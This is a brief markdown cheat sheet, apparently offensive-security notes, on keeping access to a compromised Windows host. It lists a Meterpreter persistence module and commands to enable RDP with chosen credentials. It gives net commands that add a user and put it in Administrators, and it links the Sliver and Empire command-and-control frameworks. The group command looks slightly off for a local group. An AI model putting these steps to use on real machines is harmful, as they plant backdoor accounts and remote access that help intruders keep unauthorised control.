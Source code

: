 # Services

## Meterpreter

Module|Addtl.|
|--- |--- |
|exploit/windows/local/persistence_service||

# RDP

## Meterpreter

```post/windows/manage/enable_rdp```


``` run getgui -e -u $username -p $password ```

# User Creation
1. ```net user $thing /add```
2. ```net group Administrators $thing /add```

# C2

## Sliver

|Sliver||
|--- |--- |
|https://github.com/BishopFox/sliver||

## PowerShell Empire

|PSEmpire||
|--- |--- |
|https://github.com/EmpireProject/Empire||
